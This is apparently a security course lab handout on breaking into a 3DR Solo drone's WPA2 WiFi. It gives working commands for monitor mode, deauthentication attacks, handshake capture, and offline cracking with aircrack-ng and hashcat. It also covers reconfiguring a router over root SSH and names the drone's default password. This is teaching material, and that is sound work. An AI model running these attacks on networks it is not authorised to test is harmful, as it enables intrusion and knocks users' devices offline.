

Lab: Cracking Wireless Communications
Objectives
Prerequisites
-
Kali Linux laptop
-
TP-Link USB WiFi adapter (supports monitor mode)
-
Target: 3DR Solo SoloLink WiFi
The Big Picture (Read This First)
Every attack this week needed you to already be on the drone's WiFi. This lab is how you get on it when you don't know the password.
The trick that makes WiFi cracking possible: you do not have to guess passwords against the live network (slow, noisy, detectable). Instead you capture the brief "handshake" that happens whenever a device joins, then guess passwords offline against that recording — millions per second, silently, on your own laptop. If the password is weak, it falls.
Four moves, that's the whole lab:
-
Monitor mode — put your WiFi card into "listen to everything" mode.
-
Find the target — spot the drone's network and its channel.
-
Capture the handshake — optionally kick a device off (
deauth) so it reconnects and you catch the handshake. -
Crack it offline — run a wordlist against the capture.
Background: WPA2 Authentication
WPA2-PSK (Pre-Shared Key) authentication uses a 4-way handshake to derive session keys:
Client AP
| |
|--- Association Request ------>|
|<-- ANonce (random) -----------| (Message 1)
|--- SNonce + MIC ------------->| (Message 2)
|<-- GTK + MIC (encrypted) ----| (Message 3)
|--- ACK --------------------- >| (Message 4)

The 4-way handshake is captured from the air. The PSK can then be brute-forced offline because:
-
The attacker captures messages 1 and 2 (both contain public nonces)
-
The PSK is used to derive the PMK and then the PTK
-
An attacker can test candidate passwords: PMK = PBKDF2(HMAC-SHA1, password, SSID, 4096, 256)
Phase 1: Kali USB passthrough
In VirtualBox you need to confgure the USB passtrough to be able to see the WiFi card in your Kali Linux.
- Find the devices menu in VirtualBox and click on
Realtek 802.11ac WLAN Adapter

Phase 2: Setup Monitor Mode
# Check your WiFi adapters
iwconfig
ip link show
# Identify the TP-Link adapter (usually wlan1)
# Kill processes that interfere with monitor mode
sudo airmon-ng check kill
# Start monitor mode on the TP-Link adapter
sudo airmon-ng start wlan1
# Verify monitor mode is active
iwconfig
# Should show wlan1mon (or similar) in Monitor mode
Phase 2: Survey the Wireless Environment
# Scan for available networks
sudo airodump-ng wlan1mon
# Look for your target:
# BSSID: (MAC address of Solo/Specta AP)
# ESSID: SoloLink_XXXXXXXX or SpectraXXXXXX
# CH: channel number
# ENC: WPA2
# Note the BSSID and channel for your target
Phase 3: Capture the 4-Way Handshake
# Start targeted capture (replace with your target values)
sudo airodump-ng wlan1mon \
--bssid <TARGET_BSSID> \
--channel <TARGET_CH> \
--write solo-handshake
# airodump-ng will write files:
# solo-handshake-01.cap (packet capture)
# solo-handshake-01.csv (scan log)
Trigger the handshake
Option A — wait
-
Wait for a device to connect or reconnect to the AP
-
This can take several minutes
Option B — deauth attack
Why this works: WPA2 management frames aren't authenticated, so you can forge a "you've been disconnected" (deauthentication) frame that looks like it came from the access point. The victim device believes it, drops off, and automatically reconnects a second later — replaying the 4-way handshake right into your capture. You're not breaking encryption here; you're just triggering the moment you need to record.
# In a separate terminal: send deauth packets to force reconnection
sudo aireplay-ng --deauth 3 -a <TARGET_BSSID> wlan1mon
# -a: AP BSSID
# Sends 3 deauthentication frames → client will reconnect → handshake captured
In airodump-ng output, look for:
[ WPA handshake: XX:XX:XX:XX:XX:XX ]
This confirms the handshake was captured.
Phase 4: Crack the Handshake (1/3)
Option A: Dictionary Attack
# Use rockyou.txt wordlist (included in Kali)
sudo aircrack-ng solo-handshake-01.cap \
-w /usr/share/wordlists/rockyou.txt \
-e SoloLink_XXXXXXXX
# If successful:
# KEY FOUND! [ sololink ]
Phase 4: Crack the Handshake (2/3)
Option B: Custom Wordlist
Create a targeted wordlist based on OSINT about the target:
# Using crunch to generate all 8-character numeric passwords
crunch 8 8 0123456789 > custom-wordlist.txt
# Using cewl to generate words from a website
cewl https://3dr.com -d 2 -m 5 > 3dr-wordlist.txt
# Combine lists
cat rockyou.txt 3dr-wordlist.txt > combined.txt
aircrack-ng solo-handshake-01.cap -w combined.txt -e SoloLink_XXXXXXXX
Phase 4: Crack the Handshake (3/3)
Option C: hashcat (GPU accelerated)
# Convert cap file to hashcat format
hcxpcapngtool -o hash.hc22000 solo-handshake-01.cap
# Run hashcat (WPA2 = mode 22000)
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
Phase 5: Narrow Channel Bandwidth Technique
Some WiFi adapters have trouble capturing full 20/40 MHz channel width frames. The narrow channel bandwidth technique reconfigures the AP to use a narrower channel width, making capture more reliable.
How it works:
-
Access the target router's admin interface (possible if you have credentials from a prior step)
-
Set channel bandwidth to 5 MHz or 10 MHz
-
This reduces the signal bandwidth — easier to capture with a narrower-filter SDR
# If you have access to the OpenWRT router (GL.iNet from the UART lab):
ssh root@192.168.8.1
# Edit wireless config
vim /etc/config/wireless
# Find: option htmode 'HT20'
# Change to: option chanbw '10'
# Apply:
wifi
# On Kali, configure adapter to match narrow channel
iwconfig wlan1mon channel 6
# Use airmon-ng with the narrower channel
sudo airodump-ng wlan1mon --channel 6
Phase 6: Connect with Cracked Password
# Stop monitor mode
sudo airmon-ng stop wlan1mon
# Connect to target WiFi with cracked password
nmcli dev wifi connect "SoloLink_XXXXXXXX" password "sololink"
# Verify connectivity
ip a
ping 10.1.1.1
Discussion Questions
-
How long did the crack take? What does this tell you about password complexity requirements?
-
The default SoloLink password is
sololink— how would you find this without cracking? -
What would make this WiFi network significantly harder to crack?
-
At what point in the attack chain does RF-layer security fail vs. application-layer security?